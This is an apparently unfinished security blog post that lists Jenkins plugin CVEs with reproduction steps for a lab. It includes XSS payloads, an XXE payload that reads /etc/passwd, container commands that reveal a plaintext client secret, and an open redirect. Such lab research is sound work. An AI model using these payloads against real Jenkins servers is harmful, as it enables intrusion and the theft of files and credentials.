 ```yaml
---
layout: post
title: Jenkins - Vulnerabilities analysis part 4
tags: [Jenkins, Security, CI, CD]
description: "Jenkins - Vulnerabilities analysis part 4"
---
```


This is still in redaction. I'll add more content when I have found plugins vulnerable and can reproduce the vulnerability. The exploit part will be more verbose, for now that will do :)

The docker image, which will be the lab, with all the plugins already installed, will be available soon.

Search for vulnerable plugins :
- [https://www.jenkins.io/security/advisories/](https://www.jenkins.io/security/advisories/)


## Missing permission


## XSS
### Stored XSS vulnerability in Dashboard View Plugin
- CVE-2022-27197
	- Dashboard View Plugin 2.18
	- [https://plugins.jenkins.io/dashboard-view/](https://plugins.jenkins.io/dashboard-view/)
	- Requires Jenkins 2.277.1

#### Exploit
- New view - name it - select dashboard
- add a Portlets at the top of the page
- Iframe source url --> javascript:alert("Liodeus")

### Reflected XSS vulnerability in Wall Display Master Project Plugin
- CVE-2019-10376 
	-  Wall Display Master Project 0.6.34
	- [https://plugins.jenkins.io/jenkinswalldisplay/](https://plugins.jenkins.io/jenkinswalldisplay/) 
	- Requires Jenkins 1.580

#### Exploit
- click Wall Display
- `customTheme=</style><script>alert("Liodeus")</script>`

* * *

## CSRF

* * *

## XXE
### XXE vulnerability in Performance Plugin 
- CVE-2021-21701
	- pom2config plugin 1.2
	- [https://plugins.jenkins.io/pom2config/](https://plugins.jenkins.io/pom2config/)
	- Requires Jenkins 1.509.1

#### Exploit
- Create a new freestyle project
- Go on it - click Pom2Config
- Craft a .xml with exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/etc/passwd" >]>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <description>&xxe;</description>
</project>
```

* * *

## Secret stored in plain text
### Client Secret stored in plain text by GitLab Authentication Plugin
- CVE-2022-27206
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- Client ID --> ThisIsASecretID
- Client Secret --> ThisIsASecretPASSWORD
- docker ps - get docker:dind name
- docker exec -it pensive_shannon /bin/bash
- cd /var/jenkins_home
- cat config.xml
- Secret in plain text

* * *

## Path traversal

* * *

## Agent-to-controller security bypass

* * *

## Arbitrary file read


## Denial of service

* * *

## Incorrect permission

* * *

## Bonus
### Open redirect vulnerability in GitLab Authentication Plugin 
- CVE-2022-25196
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- GitLab Web URI --> URL
- Save
- Go to localhost:8080
- You are redirect to URL
